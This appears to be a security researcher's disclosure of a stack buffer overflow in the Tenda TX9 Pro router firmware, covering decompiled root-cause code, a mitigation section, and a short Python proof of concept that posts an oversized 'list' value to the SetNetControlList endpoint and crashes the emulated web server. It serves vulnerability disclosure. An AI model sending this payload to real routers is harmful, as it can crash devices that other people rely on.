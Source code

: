 # Buffer Overflow in Tenda Router TX9 Pro

----
- Related products：[TX9 Pro](https://www.tendacn.com/product/download/TX9Pro.html) Update Date：2021/12/24
- Hardware Version: V1.0
- Software Version: V22.03.02.10
- Download: [TX9 Pro Firmware-Tenda-All For Better NetWorking (tendacn.com)](https://www.tendacn.com/download/detail-4219.html)
----

- Author: anhnlq (aka h4niz) from VNG Cloud
- Date: 19/04/2022

----

### Root cause
I found a vulnerability in `SetNetControlList()` function, the root cause is lack of validate length of user input. The vulnerability code below:
```
int __fastcall SetNetControlList(_DWORD *a1)
{
  char *v2; // $v0
  int v3; // $v0
  char v5[32]; // [sp+1Ch] [-28h] BYREF

  memset(v5, 0, sizeof(v5));
  v2 = sub_4150CC((int)a1, (int)"list", (int)""); // Get value to `a1` but does not validate length
  sub_43157C((int)v2, '\n'); // Passing `a1` to sub_43157C function
  signal(0x12, 1);
  v3 = fork();
  if ( !v3 )
  {
    set_tc_rule();
    exit(0);
  }
  if ( v3 > 0 )
  {
    sprintf(v5, "{\"errCode\":%d}", 0);
    sub_41B47C(a1, v5);
  }
  return _stack_chk_guard;
}
```

By using `sub_5150CC()` to get input from user and pass to `a1` variable. I don't know why but most of get data method is have done by `GetValue()` function that validates length of input before assigns it to variable. After that, `a1` variable is passed to `sub_43157C()`, at there, the buffer overflow is trigged by `strcpy()` function.

```
int __fastcall sub_43157C(int a1, int a2)
{
[Truncated]
  char v14[256]; // [sp+6Ch] [-208h] BYREF
[Truncated]
  while ( 1 )
  {
    v4 = (_BYTE *)strchr(a1, a2);
    if ( !v4 )
      break;
    *v4 = 0;
    v5 = v4 + 1;
    memset(v14, 0, sizeof(v14));
    strcpy((int)v14, a1);

[Truncated]
  return _stack_chk_guard;
}
```
We can see, `v14` only has 256 bytes of length, however, the program passes unlimit data from user to this by `strcpy()`.

----

### POC
```
#-*- encoding: utf8 -*-
import requests

# Product: Tenda Router
# Related products：TX9 ProUpdate Date：2021/12/24
# Hardware Version:V1.0
# Software Version:V22.03.02.10


url = "http://192.168.1.13/goform/SetNetControlList"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload})
```

### Router output log:
```
 sudo qemu-mips -L firmadyne/images/1 firmadyne/images/1/usr/sbin/httpd 


Yes:

      ****** WeLoveLinux****** 

 Welcome to ...
main_test 481: g_lan_ip 0.0.0.0  admin
[httpd][debug]----------------------------webs.c,158
Unsupported setsockopt level=65535 optname=128
httpd listen ip = 0.0.0.0 port = 80
webs: Listening for HTTP requests at address 0.0.0.0
Unsupported setsockopt level=65535 optname=128
[192.168.1.13]..........
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```


## Mitigation:
- Validate data length before passing to `strcpy()`
- Or use `strncpy()` instead of `strcpy()`